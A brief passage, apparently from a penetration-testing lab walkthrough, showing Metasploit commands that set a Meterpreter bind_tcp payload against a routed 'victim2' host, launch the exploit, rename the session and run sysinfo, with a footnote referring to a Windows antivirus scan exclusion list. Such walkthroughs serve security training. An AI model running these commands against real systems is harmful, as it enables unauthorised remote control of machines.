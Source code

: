 ```bash
# Using MSF, you have to use bind_tcp for routed targets.
set payload windows/meterpreter/bind_tcp
set RHOSTS $victim2_ip
set LPORT 4433
exploit # we get a meterpreter session for the victim2.
sessions -n victim-2 -i 2 # rename the session for victim 2
sysinfo
```
{% endcode %}





[^1]: Windows AntiVirus Folder scan exclusion list.
